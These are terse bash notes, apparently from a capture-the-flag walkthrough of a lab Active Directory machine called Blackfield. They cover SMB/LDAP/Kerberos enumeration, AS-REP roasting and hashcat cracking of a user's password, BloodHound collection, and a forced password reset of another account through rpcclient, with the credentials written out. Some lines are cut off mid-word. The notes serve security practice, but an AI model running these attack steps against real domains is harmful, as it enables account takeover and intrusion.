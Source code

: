 ```bash

crackmapexec smb $tip -u '' --pass-pol

# add hosts
echo '10.129.112.105 blackfield.local dc01.blackfield.local' | sudo tee -a /etc/hos

ldapsearch -H ldap://$tip:389 -x -b "DC=blackfield,DC=local" '(Objectclass=user)' samaccountname | grep -i samaccountname

# result was NT_STATUS_ACCESS_DENIE
rpcclient -W '' -c querydispinfo -U''%'' $tip

kerbrute userenum -d blackfield.local  --dc blackfield.local /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt


---- exploit

sudo mount -t cifs //$tip/profiles$ /mnt

# get dir name to user list
ls -1 /mnt/ > users

kerbrute userenum -d blackfield.local  --dc $tip  users.list

GetNPUsers.py -usersfile domainuser.list  -no-pass -dc-ip $tip blackfield.local/ -format hashcat -outputfile asreproast.hash

hashcat -m 18200 asreproast.hash /usr/share/wordlists/rockyou.txt

crackmapexec smb $tip -u support -p "#00^BlackKnight" --share

crackmapexec winrm $tip -u support -p "#00^BlackKnight"

ldapsearch -H ldap://$tip -D 'support' -w '#00^BlackKnight' -x -b "DC=blackfield,DC=local" > ldap_cred.log

# python bloodhound enum
pip install bloodhound

## -c ALL - All collection methods
## -u support -p #00^BlackKnight - Username and password to auth as
## -d blackfield.local - domain name
## -dc dc01.blackfield.local - DC name (it won’t let you use an IP here)
##-ns 10.10.10.192 - use 10.10.10.192 as the DNS server
bloodhound-python -c All -u support -p '#00^BlackKnight' -d blackfield.local -dc dc01.blackfield.local -ns $ti

# change password
## not work
smbpasswd.py support:#00^BlackKnight@blackfield.local -newpass Hack01@123  

## https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse#forcechangepassword
rpcclient -U support $tip
> setuserinfo2 audit2020 23 'Hack01@123'

## check pwd, no winrm
crackmapexec smb $tip -u audit2020 -p 'Hack01@123' --shares
crackmapexec winrm $tip -u audit2020 -p 'Hack01@123'

# check smb file
smbclient //$tip/forensic -U audit2020%Hack01@123
```